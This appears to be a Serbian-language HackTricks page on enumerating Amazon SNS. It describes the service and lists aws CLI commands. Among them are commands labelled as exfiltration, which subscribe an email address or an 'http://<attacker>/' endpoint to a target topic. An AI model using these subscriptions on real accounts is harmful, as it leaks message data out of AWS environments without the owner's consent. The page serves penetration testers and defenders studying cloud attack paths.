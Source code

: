 # AWS - SNS Enum

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) je opisan kao **potpuno upravljana usluga za slanje poruka**. Podržava **komunikaciju od aplikacije do aplikacije** (A2A) i **od aplikacije do osobe** (A2P).

Ključne funkcije za A2A komunikaciju uključuju **mehanizme objavljivanja/pretplate (pub/sub)**. Ovi mehanizmi uvode **teme**, ključne za omogućavanje visokog protoka, **push-based, many-to-many slanja poruka**. Ova funkcija je veoma korisna u scenarijima koji uključuju distribuirane sisteme, mikroservise i serverless arhitekture zasnovane na događajima. Korišćenjem ovih tema, sistemi za objavljivanje mogu efikasno distribuirati poruke na **širok spektar sistema za pretplatu**, olakšavajući fanout šablon slanja poruka.

### **Razlika u odnosu na SQS**

**SQS** je **usluga zasnovana na redovima** koja omogućava komunikaciju tačka-do-tačka, obezbeđujući da poruke budu obrađene od strane **jednog potrošača**. Pruža **isporuku barem jednom**, podržava standardne i FIFO redove i omogućava zadržavanje poruka radi ponovnog slanja i odložene obrade.\
S druge strane, **SNS** je **usluga zasnovana na objavljivanju/pretplati**, omogućavajući **jedan-na-više** komunikaciju putem emitovanja poruka **više pretplatnika** istovremeno. Podržava **različite krajnje tačke pretplate kao što su e-pošta, SMS, Lambda funkcije i HTTP/HTTPS**, i pruža mehanizme filtriranja za ciljano slanje poruka.\
Iako obe usluge omogućavaju odvajanje komponenti u distribuiranim sistemima, SQS se fokusira na redovnu komunikaciju, a SNS naglašava događajno vođene, fan-out obrasce komunikacije.

### **Enumeracija**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Imajte na umu da ako je **tema tipa FIFO**, mogu se koristiti samo pretplatnici koji koriste protokol **SQS** (HTTP ili HTTPS ne mogu se koristiti).

Takođe, čak i ako `--topic-arn` sadrži region, pobrinite se da navedete tačan region u **`--region`** ili ćete dobiti grešku koja izgleda kao da nemate pristup, ali problem je u regionu.
{% endhint %}

### Neautentifikovan pristup

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### Eskalacija privilegija

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### Post eksploatacija

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### Upornost

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# Reference
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
